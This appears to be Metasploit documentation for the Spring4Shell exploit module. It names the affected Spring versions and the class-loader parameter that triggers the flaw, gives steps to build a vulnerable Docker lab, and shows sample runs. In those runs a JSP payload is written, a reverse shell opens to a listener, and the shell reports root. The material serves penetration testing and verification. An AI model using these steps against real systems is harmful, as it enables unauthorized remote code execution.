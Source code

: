 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Java
   1   Linux
   2   Windows
```
## Scenarios
Spring Framework v5.3.15 on Linux (debian docker image)
### Target Java

```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting       Required  Description
   ----          ---------------       --------  -----------
   PAYLOAD_PATH  webapps/ROOT          yes       Path to write the payload
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8085                  yes       The target port (TCP)
   SSL           false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /helloworld/greeting  yes       The path to the application action
   VHOST                               no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[*] 127.0.0.1:8085 - Executing JSP payload
[+] 127.0.0.1:8085 - Log file flushed at /webapps/ROOT/a0l048.jsp
[!] Tried to delete a0l048.jsp, unknown result
[*] Command shell session 2 opened (192.168.0.174:4444 -> 192.168.0.174:52032 ) at 2022-04-28 00:20:00 +0200

whoami
root
```

### Target Linux (x86)
```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting       Required  Description
   ----          ---------------       --------  -----------
   PAYLOAD_PATH  webapps/ROOT          yes       Path to write the payload
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8085                  yes       The target port (TCP)
   SSL           false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /helloworld/greeting  yes       The path to the application action
   VHOST                               no        HTTP server virtual host


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[*] 127.0.0.1:8085 - Executing JSP payload
[+] 127.0.0.1:8085 - Log file flushed at /webapps/ROOT/hejXj1.jsp
[+] Deleted /tmp/YAlc3bD
[!] Tried to delete hejXj1.jsp, unknown result
[*] Command shell session 3 opened (192.168.0.174:4444 -> 192.168.0.174:52077 ) at 2022-04-28 00:21:32 +0200

whoami
root
```